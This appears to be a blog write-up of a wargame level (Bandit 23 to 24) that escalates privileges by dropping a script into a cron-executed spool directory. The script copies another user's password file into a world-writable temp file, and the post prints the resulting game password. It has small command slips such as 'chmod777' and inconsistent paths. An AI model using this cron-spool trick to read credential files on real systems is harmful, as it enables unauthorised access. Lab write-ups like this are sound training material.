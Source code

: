 +++
draft = false
date = 2020-05-06T17:26:01+02:00
title = "Level 23 -> Level 24"
description = ""
slug = ""
tags = []
categories = []
externalLink = ""
series = []
weight = 30
+++

**Level Goal**

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE**: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2**: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Solution ##

Let's check the script being executed:

{{< highlight bash >}}
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
{{< /highlight>}}

The script is executing and then deleting all scripts owned by user `bandit23` under the `/var/spool/bandit24` directory, for which we have write permissions:

{{< highlight bash >}}
bandit23@bandit:/var/spool/bandit24$ ls -al /var/spool/
total 20
drwxr-xr-x  5 root root     4096 May 14 09:41 .
drwxr-xr-x 11 root root     4096 May  7 20:14 ..
drwxrwx-wx 28 root bandit24 4096 Aug 27 14:29 bandit24
drwxr-xr-x  3 root root     4096 May  3 14:18 cron
lrwxrwxrwx  1 root root        7 May  3 14:16 mail -> ../mail
drwx------  2 root root     4096 Jan 14  2018 rsyslog
{{< /highlight >}}

In order to solve this level we can create a script that prints out the content of **/etc/bandit_pass/bandit24** and put it under `/var/spool/bandit24`.

We will create the script under `/tmp/testing_level24` which is writable and we will call it `custom.sh`:

{{< highlight bash >}}
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/testing_level24/custom.txt
{{< /highlight >}}

We have to give it executable permissions:

{{< highlight bash >}}
chmod 777 /tmp/testing_level24/custom.sh
{{< /highlight >}}

And create the `/tmp/testing_level24/custom.txt` file with writable permissions:

{{< highlight bash >}}
touch /tmp/testing_level24/custom.txt && chmod777 /tmp/testing_level24/custom.txt
{{< /highlight >}}


Now we can move the script under the right directory:

{{< highlight bash >}}
bandit23@bandit:/tmp$ mv /tmp/custom.sh /var/spool/bandit24/custom.sh
{{< /highlight >}}

After some time we will be able to read the password for the next level on the `/tmp/testing_level24/custom.txt` file:

{{< highlight bash >}}
bandit23@bandit:/tmp/testing_level24$ cat custom.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
{{< /highlight >}}



&nbsp;

We successfully found the password for **Level 24** !
